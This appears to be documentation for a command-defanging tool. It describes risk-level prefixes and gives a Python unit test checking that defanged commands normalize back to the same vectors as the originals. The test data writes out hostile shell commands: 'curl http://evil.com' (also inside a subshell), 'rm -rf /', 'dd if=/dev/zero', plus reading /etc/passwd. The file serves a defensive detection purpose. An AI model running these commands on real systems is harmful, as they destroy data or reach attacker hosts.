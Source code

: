**Safe Command Prefix**
- **Defanged Commands**: All defanged commands get `[defang:risk_level]` prefix
- **Risk Levels**: `dangerous`, `moderate`, `safe` (no prefix for safe commands)
- **Examples**: 
  - `[defang:dangerous] cxrl hxxp://evil.com`
  - `[defang:moderate] echo [BACKTICK] whoami [BACKTICK]`
  - `cat /etc/passwd` (safe, no prefix)
- **Normalization Strategy**: Remove prefix before processing

### Vocabulary Consistency Testing

**Status**: ✅ **COMPLETED** - Issue #52 vocabulary consistency validation framework

**Test Plan**:
1. Create pairs of defanged/non-defanged command sequences
2. Vectorize both versions
3. Verify identical vector representations
4. Document any discrepancies

**Implementation**: `tests/unit/test_vocabulary_consistency.py`

**Test Cases** (ACTUAL VERIFIED PATTERNS):
```python
test_cases = [
    ("curl http://evil.com", "cxrl hxxp://evil.com"),
    ("bash script.sh", "bxsh script.sh"),
    ("rm -rf /", "rx -rf /"),
    ("dd if=/dev/zero", "dx if=/dev/zero"),
    ("cmd1 && cmd2", "cmd1 [AND] cmd2"),
    ("cmd1 | cmd2", "cmd1 [PIPE] cmd2"),
    ("cmd1; cmd2", "cmd1[SC] cmd2"),
    ("$(curl http://evil.com)", "[SUBSHELL] cxrl hxxp://evil.com [SUBSHELL]"),
    ("echo `whoami`", "echo [BACKTICK] whoami [BACKTICK]"),
]

# Expected behavior for vocabulary consistency
expected_results = [
    {"original": "curl http://evil.com", "defanged": "cxrl hxxp://evil.com", "expected_equal": True},
    {"original": "bash script.sh", "defanged": "bxsh script.sh", "expected_equal": True},
    {"original": "rm -rf /", "defanged": "rx -rf /", "expected_equal": True},
    {"original": "dd if=/dev/zero", "defanged": "dx if=/dev/zero", "expected_equal": True},
    {"original": "cmd1 && cmd2", "defanged": "cmd1 [AND] cmd2", "expected_equal": True},
    {"original": "cmd1 | cmd2", "defanged": "cmd1 [PIPE] cmd2", "expected_equal": True},
    {"original": "cmd1; cmd2", "defanged": "cmd1[SC] cmd2", "expected_equal": True},
    {"original": "$(curl http://evil.com)", "defanged": "[SUBSHELL] cxrl hxxp://evil.com [SUBSHELL]", "expected_equal": True},
    {"original": "echo `whoami`", "defanged": "echo [BACKTICK] whoami [BACKTICK]", "expected_equal": True},
]

for case in expected_results:
    # Normalize defanged command back to original
    normalized = normalize_defanged_command(case["defanged"])
    vec_original = vectorizer.transform([case["original"]])
    vec_normalized = vectorizer.transform([normalized])
    
    if case["expected_equal"]:
        assert np.array_equal(vec_original, vec_normalized), \
            f"FAILED: {case['original']} != {case['defanged']}"
        print(f"✓ {case['original']} ≈ {case['defanged']}")
    else:
        assert not np.array_equal(vec_original, vec_normalized), \
            f"UNEXPECTED MATCH: {case['original']} == {case['defanged']}"
        print(f"✓ {case['original']} ≠ {case['defanged']} (as expected)")
```